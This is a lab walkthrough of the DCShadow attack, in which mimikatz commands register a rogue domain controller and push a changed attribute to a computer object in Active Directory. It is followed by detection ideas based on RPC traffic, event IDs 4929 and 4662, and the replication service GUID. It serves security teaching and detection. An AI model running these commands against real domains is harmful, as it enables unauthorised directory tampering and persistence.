










# DCShadow - Becoming a Rogue Domain Controller

DCShadow allows an attacker with enough privileges to create a rogue Domain Controller and push changes to the DC Active Directory objects.

## Execution

For this lab, two shells are required - one running with `SYSTEM` privileges and another one with privileges of a domain member that is in `Domain admins` group:



In this lab, I will be trying to update the AD object of a computer `pc-w10$`. A quick way to see some of its associated properties can be achieved with the following powershell:

```csharp
PS c:\> ([adsisearcher]"(&(objectCategory=Computer)(name=pc-w10))").Findall().Properties
```



Note the `badpwcount` property which we will try to change with DCShadow by setting the value to 9999:


```csharp
mimikatz # lsadump::dcshadow /object:pc-w10$ /attribute:badpwdcount /value=9999
```


We can now push the change to the primary Domain Controller `DC-MANTVYDAS`:


```csharp
lsadump::dcshadow /push
```


Below are the screenshots of the above commands and their outputs as well as the end result, indicating the `badpwcount`value getting changed to 9999:



## Observations

As suggested by Vincent Le Toux who co-presented the [DCShadow](https://www.youtube.com/watch?v=KILnU4FhQbc), in order to detect this type of rogue activity, you could monitor the network traffic and suspect any non-DC hosts \(our case it is the PC-W10$ with `10.0.0.7`\) issuing RCP requests to DCs \(our case DC-MANTVYDAS with `10.0.0.6`\) as seen below:



Same for the logs, if you see a non-DC host causing the DC to log a `4929` event \(Detailed Directory Service Replication\), you may want to investigate what else is happening on that system:



Current implementation of DCShadow in mimikatz creates a new DC and deletes its associated objects when the push is complete in a short time span and this pattern could potentially be used to trigger an alert, since creation of a new DC, related object modifications and their deletion all happening in 1-2 seconds time frame sound anomalous. Events `4662` may be helpful for identifying this:







Per [Luc Delsalle](https://blog.alsid.eu/@lucd?source=post_header_lockup)'s post on DCShadow explanation, one other suggestion for detecting rogue DCs is the idea that the computers that expose an RPC service with a GUID of `E3514235–4B06–11D1-AB04–00C04FC2DCD2`, but do not belong to a `Domain Controllers` Organizational Unit, should be investigated. 

We see that our suspicious computer exposes that exact service:



..but does not belong to a `Domain Controllers` OU:

```csharp
([adsisearcher]"(&(objectCategory=computer)(name=pc-w10))").Findall().Properties.distinguishedname
# or
(Get-ADComputer pc-w10).DistinguishedName
```



## References

Below are the resources related to DCShadow attack. Note that there is also a link to youtube by a security company Alsid, showing how to dynamically detect DCShadow, so please watch it.















